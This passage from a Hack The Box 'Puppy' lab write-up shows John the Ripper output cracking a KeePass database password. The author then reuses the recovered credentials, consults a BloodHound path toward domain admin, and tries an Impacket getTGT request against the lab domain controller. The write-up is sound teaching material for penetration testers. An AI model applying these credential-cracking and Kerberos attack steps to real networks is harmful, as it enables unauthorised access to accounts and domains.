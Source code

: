 ```bash
Waiting for 2 children to terminate
2 0g 0:00:00:20 DONE (2025-08-20 14:08) 0g/s 0.5908p/s 0.5908c/s 0.5908C/s loveme
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```


Using this password we can open the file!
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ xdg-open recovery.kdbx
```

![htb-puppy-keepass](images/HTB-puppy/htb-puppy-keepass.png)

Right click the entry to copy that user's password
### ant.edwards -> adam.silver
Looking back at our bloodhound graph to domain admin

![htb-puppy-bloodhound-full](images/HTB-puppy/htb-puppy-bloodhound-full.png)

We need to create a remote PowerShell session as the `adam.silver` user. Trying to authenticate in kerberos with their credentials brings up this error
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ sync-ad getTGT.py -dc-ip 10.10.11.70 'puppy.htb/adam.silver:<PASSWORD_REDACTED>'  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```
